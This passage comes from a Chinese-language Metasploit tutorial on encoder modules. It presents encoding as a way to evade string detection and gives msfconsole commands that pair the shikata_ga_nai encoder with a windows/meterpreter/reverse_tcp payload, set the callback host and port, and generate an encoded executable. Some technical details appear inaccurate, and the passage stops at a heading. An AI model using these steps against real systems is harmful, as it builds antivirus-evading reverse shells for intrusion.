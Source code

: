 #### 2.2. **字符串编码（String Encoding）**

- 字符替换

  ：将 Payload 中的字符串或命令进行编码，以避开字符串检测。

  - 例如，`x86/jmp_call_additive` 使用跳转和调用指令来掩盖 Payload 的实际代码。

#### 2.3. **加密编码（Encryption Encoding）**

- 加密 Payload

  ：使用加密算法对 Payload 进行加密，确保 Payload 的有效负载在传输过程中是安全的。

  - 例如，`x86/alpha_mixed` 使用混合的加密技术来隐藏 Payload 的实际内容。

### 3. **使用 Encoders 模块的步骤**

1. **选择 Encoders 模块**： 选择一个合适的 Encoder 模块。例如，要使用 `shikata_ga_nai` 编码器：

   ```
   msf > use encoder/x86/shikata_ga_nai
   ```
   
2. **查看模块信息**： 使用 `info` 命令查看编码器的详细信息，包括功能和选项：

   ```
   msf encoder(shikata_ga_nai) > info
   ```
   
3. **设置编码器选项**： 配置编码器的选项，如编码次数等：

   ```
   msf encoder(shikata_ga_nai) > set ENCODING [encoding options]
   ```
   
4. **选择 Payload 模块**： 选择一个需要编码的 Payload 模块：

   ```
   msf > use payload/windows/meterpreter/reverse_tcp
   ```
   
5. **配置 Payload 模块**： 配置 Payload 的选项，如目标主机和监听端口：

   ```
   msf payload(meterpreter/reverse_tcp) > set LHOST [your IP]
   msf payload(meterpreter/reverse_tcp) > set LPORT [port number]
   ```

6. **生成编码的 Payload**： 使用 `generate` 命令生成编码的 Payload：

   ```
   msf payload(meterpreter/reverse_tcp) > generate -t exe -e x86/shikata_ga_nai -i 5 -f /path/to/output.exe
   ```
   
   其中，`-e` 参数指定了使用的编码器，`-i` 参数指定编码的次数，`-f` 参数指定生成的文件路径。

### 4. **编码器的常见选项**

每个编码器模块可能具有不同的选项，以下是一些常见的选项：
